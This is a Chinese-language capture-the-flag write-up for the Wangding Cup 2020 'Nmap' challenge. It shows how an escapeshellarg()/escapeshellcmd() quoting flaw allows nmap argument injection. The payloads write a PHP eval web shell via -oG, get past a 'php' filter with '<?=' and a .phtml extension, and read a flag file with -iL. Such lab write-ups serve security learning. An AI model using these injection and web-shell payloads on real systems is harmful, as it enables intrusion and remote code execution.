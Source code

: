 # \[网鼎杯 2020 朱雀组]Nmap

## \[网鼎杯 2020 朱雀组]Nmap

## 考点

* Nmap使用
* escapeshellarg()+escapeshellcmd() 之殇
* 文件上传bypass
  * `phtml`绕过php黑名单
  * `<?=`绕过php黑名单

## wp

抓包可以看到请求的内容为`host=127.0.0.1`，没有其他东西。

* 传入`127.0.0.1' -o xxxx`，提示hostname是`127.0.0.1\`，访问xxxx无结果
* 传入`127.0.0.1 -o xxxx'`提示hostname是`127.0.0.1 -o xxxx\'`，访问xxxx无结果
* 传入`'127.0.0.1 -o xxxx '`，提示`Host maybe down`
* 访问xxxx，发现语句如下

```
nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/47cae -o xxxx \127.0.0.1 \\
```

这就和[\[BUUCTF 2018\]Online Tool](buuctf-2018-online-tool.md)一样，那传入`127.0.0.1' -o xxxx`，应该访问`xxxx'`

使用同样的payload，提示`Hacker...`

```
'<?php eval($_POST["a"]);?> -oG shell.php '
```

测试发现过滤了php，`<?php`可以使用`<?=`绕过，写入的shell文件后缀可以使用`phtml`绕过

```
'<?=eval($_POST[1]);?> -oG shell.phtml '
```

蚁剑连接或者直接连接即可。

在Nmap中还有一个参数`-iL`是从文件中加载URL，也就是说，可以利用这一点进行文件读取

```
127.0.0.1' -iL /flag -o xxxx
```

![](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png>)

## 小结

1. [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)
2. 类似[\[BUUCTF 2018\]Online Tool](buuctf-2018-online-tool.md)



